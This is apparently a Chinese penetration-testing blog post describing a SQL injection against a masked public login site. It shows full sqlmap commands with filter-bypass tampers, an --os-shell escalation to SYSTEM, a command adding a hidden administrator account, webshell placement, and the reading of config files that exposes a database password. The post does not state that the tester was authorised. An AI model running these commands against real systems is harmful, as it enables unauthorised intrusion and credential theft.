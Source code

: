 +++
title = "记一次 SQL 注入简单 bypass"
topics = ["Pentest"]
tags = ["injection"]
description = "注入 bypass"
date = "2020-06-22T17:35:07+08:00"
draft = false
+++

### 0x00 存在 SQL 注入
总之是遇到一个站，登录的页面，数据包大致如下：
```
POST /jsweb/userlogin/UserLoginAction.aspx HTTP/1.1
Host: 115.xxx.xxx.xxx:8042
Content-Length: 47
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://115.xxx.xxx.xxx:8042
Referer: http://115.xxx.xxx.xxx:8042/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=bxdzehxa5mvoco1fkrjlbqbt
Connection: close

uname=admin*&pwd=dskfsdkf&valCode=1197&telphone=
```

其中验证码可以绕过，而登录名那里存在注入
![](/img/post/Xnip2020-09-13_22-20-51.jpg)
![](/img/post/Xnip2020-09-13_22-21-32.jpg)

使用 and 1=1、and 1=2 时，发现过滤了空格，用/**/代替
![60](/img/post/Xnip2020-09-13_22-30-08.jpg)
![60](/img/post/Xnip2020-09-13_22-30-34.jpg)

### 0x01 简单看一下

中间件是 IIS，存在 len 函数，确定为 SQLServer
![60](/img/post/Xnip2020-09-13_22-33-36.jpg)

Order by 一下，看看能不能 union，发现有 10 列
![60](/img/post/Xnip2020-09-13_22-34-56.jpg)

尝试 union select
![80](/img/post/Xnip2020-09-13_22-40-54.jpg)

admin 转换为 int 时出错，感觉好像能显示位，测试发现确实可以显示
![80](/img/post/Xnip2020-09-13_22-41-55.jpg)

可以获取数据库版本，可以确定有 union 注入了
![](/img/post/Xnip2020-09-13_22-42-59.jpg)

### 0x02 sqlmap
```sqlmap跑一下：sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment```
![](/img/post/Xnip2020-09-13_22-45-24.jpg)

比较奇怪，手工的时候可以 union 的，先看看 boolean-based 获取数据吧

-\-current-db 倒是能获取到数据库名为 ExamDataP_2019，但是获取表名的时候就返回空了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment -D ExamDataP_2019 --tables```
![](/img/post/Xnip2020-09-13_22-46-35.jpg)

能判断出来有注入，手工测试 and 1=1 时可以，测试 union 也可以，看来确实有过滤

### 0x03 探测过滤
看看过滤了啥，union 比较快，就用 union、-v 5 看下 payload

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment --technique=U --current-db -v 5```

直接拿最后一个 payload 测试下
![](/img/post/Xnip2020-09-13_23-05-33.jpg)

提示 98 附近有错误
![80](/img/post/Xnip2020-09-13_23-06-19.jpg)

感觉像过滤了char之类的函数，char 移到显示位，测一下

发现有加号的时候出错，没有的时候就没问题，可能是处理加号了
![80](/img/post/Xnip2020-09-13_23-07-17.jpg)
![80](/img/post/Xnip2020-09-13_23-08-12.jpg)

移到显示位测了下，确实处理加号了，替换为空了
![80](/img/post/Xnip2020-09-13_23-08-59.jpg)

### 0x04 tamper
去网上找了能替换加号的，没有找到相关信息，后来想着 sqlmap 的 tamper 会不会有，结果还真有
![](/img/post/Xnip2020-09-13_23-09-50.jpg)

有两个 tamper，一个是适用 2012 的，一个是 2008 的，我们这里的数据库是 08 的，用 plus2fnconcat.py 这个，可以判断出来数据库了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --technique=U --current-db```
![](/img/post/Xnip2020-09-13_23-10-55.jpg)

Emmmmm，可以获取数据库表，但是获取表的列名时依然不返回数据
![](/img/post/Xnip2020-09-13_23-12-12.jpg)

### 0x05 再次探测过滤
同样 -v 3 看 payload，然后测试
![](/img/post/Xnip2020-09-13_23-13-06.jpg)

有语法错误，估计又是那个被替换为空了，慢慢试。。。

看了下语句，涉及到的也就是 union、select、concat、cast、from、syscolumns、sysobjects、where、and 这些个可能被过滤的，union、select 没问题，前面测试过了，剩下的被处理的关键字感觉大概率是 from、and。。。。
![70](/img/post/Xnip2020-09-13_23-13-59.jpg)

语法错误。。。应该就是 from 了。能报错，还是想法报错到显示位

emmmm，感觉好像没有哪里过滤。。。但就是有语法错误。。。
![](/img/post/Xnip2020-09-13_23-14-57.jpg)

网上查了下，其实前面的 from 出错是因为表的原因，from 1，没有 1 这个表，所以出错。。。。。

sqlserver 和 mysql 不一样，还是用的少。。。
![90](/img/post/Xnip2020-09-13_23-15-38.jpg)

但是再次找个 pyaload 尝试依然有问题，不返回数据
![70](/img/post/Xnip2020-09-13_23-16-39.jpg)

同样的语句本地测试是可以返回数据的，费解
![80](/img/post/Xnip2020-09-13_23-17-18.jpg)


### 0x06 os-shell
实在没法了，-\-is-dba 为 True，直接 -\-os-shell
```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --os-shell```
![](/img/post/Xnip2020-09-13_23-18-11.jpg)

emmmmmm，system，啥都不说了。。。。。
![90](/img/post/Xnip2020-09-13_23-19-19.jpg)

看下端口
![70](/img/post/Xnip2020-09-13_23-19-55.jpg)

添加用户不行，卡死，估计是被拦截了
```net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes```
![](/img/post/Xnip2020-09-13_23-20-30.jpg)

看了下 tasklist，有 360，先传个 shell 吧，方便后续渗透

找路径: ```dir /s /b e:\"username.jpg"```
![70](/img/post/Xnip2020-09-13_23-21-31.jpg)

通过 echo 写 txt 判断路径，试了几个都不是，写中文路径提示不存在。。。。。
![](/img/post/Xnip2020-09-13_23-22-51.jpg)

本来网上查可以用 bat 写中文路径文件，用了 certutil、bitsadmin、powershell 都没有下载成功

看下有没有不是不包含中文的 web 路径: ```type C:\Windows\System32\inetsrv\config\applicationHost.config```

发现 80 端口路径为 c:\inetpub\wwwroot\
![85](/img/post/Xnip2020-09-13_23-23-33.jpg)

写一句话: 
![](/img/post/Xnip2020-09-13_23-24-28.jpg)

访问后出错
![70](/img/post/Xnip2020-09-13_23-25-10.jpg)

后续测试发现通过浏览器写中文名的话可以，创建了文件 9d.txt，证明网站路径就是 e:\江xxxx网站\JsWeb\
![90](/img/post/Xnip2020-09-13_23-26-00.jpg)

现在的话就知道了目标的绝对路径为 e:\江xxxx网站\JsWeb\，同时目标的 80 端口的绝对路径为 c:\inetpub\wwwroot\

PS: 由于当时有别的事，没有继续向下做，其实还可以数据库备份 shell 到网站目录，后续也见到了一个不会出现 "/" 应用程序中的服务错误的 webshell

### 0x07 找数据库信息
找 Web.config，```dir /s /b e:\"Web.config"，type e:\b2cexam\web.config```
获取到一个数据库用户名密码user id=kw;password=123456;
![](/img/post/Xnip2020-09-13_23-27-23.jpg)
![](/img/post/Xnip2020-09-13_23-29-21.jpg)

